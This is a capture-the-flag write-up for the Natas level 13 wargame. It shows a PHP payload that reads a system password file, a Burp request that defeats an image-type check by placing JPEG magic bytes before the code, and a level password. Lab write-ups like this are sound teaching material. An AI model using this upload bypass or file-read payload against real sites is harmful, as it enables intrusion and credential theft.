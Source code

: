 # Username
natas13
# Password
trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC
# Web vulnerability
Insecure file upload, filter bypass
# Method of solve
Like the previous level, the goal is to upload an insecure file and access it to get access to the password. The malicious file contents will be the following
```
<?php echo file_get_contents('/etc/natas_webpass/natas14'); ?>
```
However there is new code on this webpage that will make uploading this file more difficult. In particular, this section of the webpage code
```
else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
```
The exif_imagetype PHP function checks for "magic bytes" in the contents of the file, which is a filetype indentifier determined by the first four bytes of a file. For example, the first four bytes of JPEG files are
```
ÿØÿà
```
To make it easier, start up Burp Suite, open the Burp Browser, then record uploading a legitimate JPEG image. In Kali Linux, there's a small JPEG file at the following location
```
/usr/lib/python3/dist-packages/IPython/core/tests/2x2.jpg
```
Once we record the POST request to the app, we can send that request to the Repeater tool. We'll replay the request in the Repeater with the following adjustments...
```
------WebKitFormBoundary1jL3sRu3kAyO7l5U
Content-Disposition: form-data; name="filename"

qleupdwg3a.php
------WebKitFormBoundary1jL3sRu3kAyO7l5U
Content-Disposition: form-data; name="uploadedfile"; filename="2x2.jpg"
Content-Type: image/jpeg

ÿØÿà
```
Note that we changed the random-string filename extension from .jpg to .php. We also need to edit the contents of the upload so that the PHP code is written immediately after the first four bytes, the "yoya" characters. After that is done, we send the request, and are informed of a endpoint where our file was uploaded. Upon accessing this endpoint, we receive the password
